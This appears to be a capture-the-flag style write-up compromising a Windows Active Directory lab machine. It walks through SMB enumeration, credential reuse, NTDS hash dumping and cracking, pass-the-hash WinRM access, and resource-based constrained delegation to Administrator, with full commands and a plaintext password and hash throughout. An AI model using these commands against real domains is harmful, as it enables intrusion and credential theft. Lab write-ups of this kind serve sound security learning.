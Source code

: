 #Pwned! 
```IP
192.168.154.175
```
## Nmap
```
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 125 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2024-10-25 09:43:12Z)
135/tcp  open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 125
464/tcp  open  kpasswd5?     syn-ack ttl 125 
593/tcp  open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 125 
3268/tcp open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 125                                                                          
3389/tcp open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| ssl-cert: Subject: commonName=ResourceDC.resourced.local
```

## Nmap UDP


# Enumeration
## SMB
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025114625.png?raw=true)
```
enum4linux -a -u "" -p "" 192.168.154.175 && enum4linux -a -u "guest" -p "" 192.168.154.175
```

```index: 0xeda RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain                                                                                                
index: 0xf72 RID: 0x457 acb: 0x00020010 Account: D.Durant       Name: (null)    Desc: Linear Algebra and crypto god                                                                                                                         
index: 0xf73 RID: 0x458 acb: 0x00020010 Account: G.Goldberg     Name: (null)    Desc: Blockchain expert                                                                                                                                     
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain                                                                                                      
index: 0xf6d RID: 0x452 acb: 0x00020010 Account: J.Johnson      Name: (null)    Desc: Networking specialist                                                                                                                                 
index: 0xf6b RID: 0x450 acb: 0x00020010 Account: K.Keen Name: (null)    Desc: Frontend Developer                                                                                                                                            
index: 0xf10 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account                                                                                                                       
index: 0xf6c RID: 0x451 acb: 0x00000210 Account: L.Livingstone  Name: (null)    Desc: SysAdmin                                                                                                                                              
index: 0xf6a RID: 0x44f acb: 0x00020010 Account: M.Mason        Name: (null)    Desc: Ex IT admin                                                                                                                                           
index: 0xf70 RID: 0x455 acb: 0x00020010 Account: P.Parker       Name: (null)    Desc: Backend Developer                                                                                                                                     
index: 0xf71 RID: 0x456 acb: 0x00020010 Account: R.Robinson     Name: (null)    Desc: Database Admin                                                                                                                                        
index: 0xf6f RID: 0x454 acb: 0x00020010 Account: S.Swanson      Name: (null)    Desc: Military Vet now cybersecurity specialist                                               index: 0xf6e RID: 0x453 acb: 0x00000210 Account: V.Ventz        Name: (null)    Desc: New-hired, reminder: HotelCalifornia194!                                                                                                              
user:[Administrator] rid:[0x1f4]                                                                                                                                                                                                            
user:[Guest] rid:[0x1f5]                                                                                                                                                                                                                    
user:[krbtgt] rid:[0x1f6]                                                                                                                                                                                                                   
user:[M.Mason] rid:[0x44f]                                                                                                                                                                                                                  
user:[K.Keen] rid:[0x450]                                                                                                                                                                                                                   
user:[L.Livingstone] rid:[0x451]                                                                                                                                                                                                            
user:[J.Johnson] rid:[0x452]                                                                                                                                                                                                                
user:[V.Ventz] rid:[0x453]                                                                                                                                                                                                                  
user:[S.Swanson] rid:[0x454]                                                                                                                                                                                                                
user:[P.Parker] rid:[0x455]                                                                                                                                                                                                                 
user:[R.Robinson] rid:[0x456]                                                                                                                                                                                                               
user:[D.Durant] rid:[0x457]                                                                                                                                                                                                                 
user:[G.Goldberg] rid:[0x458] 
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025120730.png?raw=true)
```
smbclient -U 'V.Ventz' --password='HotelCalifornia194!' \\\\192.168.154.175\\'Password Audit'
```

```
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```
```
hashcat -m 1000 -w 3 -a 0 -p : --session=all — username -o ./cracked.out --outfile-format=3 ./secrets.dump.ntds /usr/share/wordlists/rockyou.txt --potfile-path ./hashcat.pot
```
## WINRM
```
nxc winrm 192.168.154.175 -u users.txt -H hashes.txt
```
```
evil-winrm -i 192.168.154.175 -u 'L.Livingstone' -H '19a3a7550ce8c505c2d46b5e39d6f808'
```
Nos deja entrar!
## RDP
pwned!
resourced.local\L.Livingstone:19a3a7550ce8c505c2d46b5e39d6f808
No funciona, se desconecta al poco
## HTTP

# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025132137.png?raw=true)


## Automated

### Peass
### Mimikatz
### Bloodhound
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025154635.png?raw=true)
Creamos un ordenador en el dominio
```
impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.154.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'Password123!'
```
Modify Delegation rights of ATTACK to impersonate other users
```
python3 rbcd.py -action write -delegate-to "RESOURCEDC$" -delegate-from "ATTACK$" -dc-ip 192.168.154.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced/l.livingstone
```
requesting TGS
```
impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'Password123!' -impersonate Administrator -dc-ip 192.168.154.175
```
exporting the ticket
```
export KRB5CCNAME=$PWD/Administrator.ccache
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025165358.png?raw=true)
Add the domain to /etc/hosts
and connect with psexec
```
impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.154.175
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025183317.png?raw=true)


